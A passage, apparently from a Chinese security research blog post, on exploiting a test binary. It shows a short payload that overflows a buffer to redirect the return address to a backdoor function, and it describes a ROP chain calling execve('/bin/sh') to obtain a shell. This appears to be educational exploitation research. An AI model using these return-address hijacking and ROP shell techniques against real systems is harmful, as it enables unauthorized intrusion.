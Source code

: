 ```bash
payload = b'a'*0x28
payload += p64(backdoor_try+1)
payload += b'b'*0x18
payload += p64(0x401B46) # address of backdoor
```

效果如图，发现可以的确可以劫持 ret 地址为`backdoor()`

[![](assets/1701606727-5a206e35392289e7d18a408aa80b3ad6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107164725-46505a3e-7d4a-1.png)

更进一步，我们尝试用 rop 调用`sys_execve("/bin/sh",0,0)`来 getshell. 这里由于没有找到`/bin/sh`的字符串，可以自己调用 read 读一个到已知地址去，最终成功 getshell

[![](assets/1701606727-de4e17ff5b7793b7a836e97cb7eb510f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107164737-4d293132-7d4a-1.png)

#### 示例 exp

本身测试代码比较简单，这里的 exp 只作为研究参考
